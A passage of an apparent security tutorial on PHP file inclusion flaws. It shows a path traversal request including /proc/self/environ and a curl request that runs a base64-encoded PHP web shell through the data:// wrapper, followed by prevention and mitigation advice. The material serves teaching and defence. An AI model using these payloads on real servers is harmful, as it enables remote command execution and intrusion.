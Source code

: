 **2. Using LFI to Include `/proc/self/environ`**

Once the PHP code is injected into the environment, you can use the LFI vulnerability to include the `/proc/self/environ` file.

```bash
index.php?page=../../../../proc/self/environ&cmd=id
```

#### Data Wrapper (`data://`)

The `data://` wrapper allows inclusion of data directly into PHP scripts, making it ideal for injecting PHP code snippets and executing them on the server.

RCE via `data://`

{% code overflow="wrap" %}
```php
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id"
```
{% endcode %}

In this example:

* We encode our PHP payload (**`<?php system($_GET["cmd"]); ?>`**) in Base64.
* We pass it using `data://` and specify `text/plain;base64` as the content type.

Mitigation

**Disable Dangerous Wrappers**: Disable the **`data`**`://` wrapper by ensuring **`allow_url_include=Off`** in `php.ini`

## Preventing and Mitigating File Inclusion Vulnerabilities

## Preventing

1. input validation
2. Avoid Using User-Controllablelike (<mark style="color:red;">**include**</mark>, <mark style="color:red;">**require**</mark>, <mark style="color:red;">**file\_get\_contents**</mark>)
3. file Permission
4. config Hardening disable (<mark style="color:red;">**allow\_url\_fopen**</mark>, <mark style="color:red;">**alow\_url\_include**</mark>)

#### Mitigation Techniques:

1. **Contextual Validation:**
   * Implement context-specific validation of user inputs. For example, validate that URLs used for file inclusion are from trusted domains and not manipulated to include unintended files.
2. **Server-Side Security Controls:**
   * Utilize web application firewalls (WAFs) and intrusion detection systems (IDS) to monitor and block requests that attempt to exploit file inclusion vulnerabilities.
3. **File Path Handling:**
   * **LFI:** Use relative file paths instead of absolute paths whenever possible. This reduces the risk of an attacker specifying arbitrary files on the server.
   * **RFI:** Avoid dynamically constructing URLs for file inclusion. If necessary, validate and sanitize URLs rigorously to prevent unauthorized access.
4. **Logging and Monitoring:**
   * Implement logging mechanisms to record access attempts and exceptions related to file operations. Monitor logs for suspicious activities or attempts to access restricted files.
5. **Regular Security Audits:**
   * Conduct regular security audits and code reviews to identify and mitigate file inclusion vulnerabilities. Use automated tools and manual testing to detect and address vulnerabilities proactively.
